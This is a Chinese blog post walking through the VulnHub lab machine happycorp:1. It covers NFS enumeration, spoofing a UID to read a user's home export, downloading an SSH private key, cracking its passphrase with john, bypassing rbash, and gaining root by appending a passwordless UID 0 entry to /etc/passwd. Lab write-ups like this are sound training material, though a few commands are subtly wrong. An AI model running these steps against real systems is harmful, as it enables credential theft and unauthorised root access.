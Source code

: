 ```yaml
---
layout: post
title:  "happycorp：1靶机游玩记录"
subtitle: 'happycorp：1靶机游玩记录'
date:   2019-07-22 18:00:00
tags: 靶机 靶场
description: '靶机 happycorp'
color: 'rgb(255,165,0)'
cover: 'https://i.loli.net/2019/07/22/5d358243eb11081011.png'
---
```


#### 前言 


靶机说明下载地址：
https://www.vulnhub.com/entry/happycorp-1,296/

下载后解压执行happycorp_1.ovf复制虚拟机，自动会分配IP地址

#### 探测

扫描了一下靶机IP地址为：192.168.111.131 

使用nmap探测端口
![nmap.png](https://i.loli.net/2019/07/22/5d358175e5f4216022.png)

也可以用rpcinfo命令，rpcinfo 命令会向 RPC 服务器发出 RPC 调用，并显示结果

```
root@kali:~# rpcinfo -p 192.168.111.131
   program vers proto   port  service
    100000    4   tcp    111  portmapper
    100000    3   tcp    111  portmapper
    100000    2   tcp    111  portmapper
    100000    4   udp    111  portmapper
    100000    3   udp    111  portmapper
    100000    2   udp    111  portmapper
    100005    1   udp  38756  mountd
    100005    1   tcp  48565  mountd
    100005    2   udp  37335  mountd
    100005    2   tcp  37845  mountd
    100005    3   udp  57602  mountd
    100005    3   tcp  35557  mountd
    100003    3   tcp   2049  nfs
    100003    4   tcp   2049  nfs
    100227    3   tcp   2049
    100003    3   udp   2049  nfs
    100003    4   udp   2049  nfs
    100227    3   udp   2049
```

showmount -e 检索主机的文件夹
```
root@kali:~# showmount -e 192.168.111.131
Export list for 192.168.111.131:
/home/karl *

```
#### 尝试入侵
使用mount去挂载

```
mount -t nfs 192.168.111.131:/home/karl /ttt
```
![10.png](https://i.loli.net/2019/07/23/5d3665eb44c2a35740.png)
但ssh目录拒绝访问，可以伪造文件所有者的UID来欺骗NFS服务器  
新增一个uid为1001的用户来访问即可

```
echo "test:x:1001:1001::/home/test:/bin/sh" /etc/passwd
```
![11.png](https://i.loli.net/2019/07/23/5d3669a6226c280272.png)

也可以使用nfs利用工具[nfspy说明](https://github.com/bonsaiviking/NfSpy)  
使用nfspy去挂载文件


```
nfspy -o server=192.168.111.131:/home/karl,hide,allow_other,ro,intr /ttt

```
挂载成功，但是访问会报错

```
root@kali:/# cd ttt
bash: cd: ttt: Input/output error

```
卸载ttt

```
fusermount -u /ttt
```
查看nsf和portmap服务正常
![9.png](https://i.loli.net/2019/07/23/5d3662b1cc45361585.png)
查看log也未发现异常,暂时先做个记录。报错原因未知。

使用nfspysh连接没有问题


```
root@kali:/# nfspysh -o server=192.168.111.131:/home/karl
nfspy@192.168.111.131:/home/karl:/> ls
/:
000600   1001   1001          28 2019-03-04 20:55:40 .lesshst
000777      0      0           9 2019-03-05 05:11:30 .bash_history
000755   1001   1001        4096 2019-03-05 05:15:14 .
000644   1001   1001         675 2019-03-04 16:09:13 .profile
000700   1001   1001        4096 2019-03-05 05:10:36 .ssh
000644   1001   1001        3538 2019-03-05 05:15:13 .bashrc
000755   1001   1001        4096 2019-03-05 05:15:14 ..
000644   1001   1001         220 2019-03-04 16:09:13 .bash_logout
#下载文件
nfspy@192.168.111.131:/home/karl:/> cd .ssh
nfspy@192.168.111.131:/home/karl:/.ssh> get id_rsa /temp
nfspy@192.168.111.131:/home/karl:/.ssh> get id_rsa.pub /temp	
nfspy@192.168.111.131:/home/karl:/.ssh> get user.txt /temp
nfspy@192.168.111.131:/home/karl:/.ssh> get authorized_keys /temp
```
![2.png](https://i.loli.net/2019/07/22/5d358244f34f272571.png)
可以看到第一个flag和账户名karl@happycorp  
既然拿到了私钥就尝试登录一下

```
ssh -i id_rsa karl@192.168.111.131
```
![3.png](https://i.loli.net/2019/07/22/5d3582444249282332.png)
发现报错，重新给个权限

```
chmod 600 id_rsa.pub
```
发现需要密码

使用john解密ssh私钥密码


```
#先将私钥转换成可破解的hash值
python /usr/share/john/ssh2john.py id_rsa > hash.txt
#使用john跑密码
john hash.txt
```
![4.png](https://i.loli.net/2019/07/22/5d358244de76c70724.png)
密码爆破出来是sheep

登录成功但发现是rbath
![5.png](https://i.loli.net/2019/07/22/5d3582443217395945.png)
使用交互式绕过
ssh -i id_rsa karl@192.168.111.131 -t /bin/sh

登录后查看权限、可执行命令等
![6.png](https://i.loli.net/2019/07/22/5d3582441ef0962646.png)
使用cp命令覆盖/etc/passwd以达到新增root用户

```
cp /etc/passwd passwd
echo "k::0:0:::/bin/bash" >> passwd
cp passwd /etc/passwd
```

使用k账户登录获取root权限
最后拿到第二个flag
![7.png](https://i.loli.net/2019/07/22/5d358243d7fa871804.png)

#### 总结

1. nfs相关漏洞利用  
2. ssh私钥破解
3. rbash绕过
4. 利用系统可执行命令提权

通过对NFS的Share/Export进行控制来决定哪一台设备可以访问共享目录防止问题出现
参考文档：
[针对NFS的渗透测试](https://www.freebuf.com/articles/network/159468.html)
[happycorp_1靶机渗透实战](https://www.anquanke.com/post/id/181786)
